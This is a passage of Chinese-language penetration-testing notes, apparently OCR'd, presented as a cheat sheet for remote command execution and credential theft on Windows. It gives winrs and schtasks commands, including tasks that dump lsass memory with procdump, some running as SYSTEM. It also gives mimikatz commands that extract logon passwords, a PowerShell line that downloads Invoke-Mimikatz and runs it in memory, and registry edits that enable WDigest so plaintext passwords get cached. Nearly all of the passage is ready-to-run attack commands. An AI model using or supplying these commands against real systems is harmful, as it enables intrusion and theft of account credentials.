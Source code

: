 >
> ### 远程命令执行
>
> > at\schtasks\psexec\wmic\sc\ps
>
> 2012 r2 起,默认端口 5985,系统自带远程管理 winrs
>
> > winrs -r:192.168.1.100 -u:administrator -p:pwd ipconfig
>
> 这里 schtasks 用着很舒服，
>
> > schtasks /create /tn mytask /tr F:\Desktop.exe /sc minute /mo 1  每分运行1次
>
> 如果程序有参数用引号 
>
> > "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp"
>
> ``/RU`` 可以以 system 启动，例如 
>
> > schtasks /Create /TN test /SC DAILY /ST 00:09 /TR notepad.exe /RU SYSTEM
>
> > schtasks /create /tn mytask /tr "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp" /sc minute /mo 2
>
> > schtasks /Query /TN mytask
>
> > net time
>
> > schtasks /Query /TN mytask
>
> > schtasks /Delete /TN mytask /F
>
> ### mimikatz + procdump 获得内存 hash
>
> 如果服务器是 64 位，要把 Mimikatz 进程迁移到一个 64 位的程序进程中，才能查看 64 位系统密码明文。32 位任意
>
> 运行
>
> > procdump.exe -accepteula -ma lsass.exe lsass.dmp(管理权限)
>
> 后 lsass.dmp 放到 mimikatz.exe 同目录，运行以下命令
>
> > mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
>
> 导出当前 
>
> > mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
>
> > powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
>
> Windows Server 2012, 部分 Windows Server 2008 默认无法使用 mimikatz 导出明文口令
>
> 解决方法：启用 Wdigest Auth, cmd:
>
> > reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
>
> powershell:
>
> > Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
>
> 重启或者用户再次登录，能够导出明文口令, 参考下文：
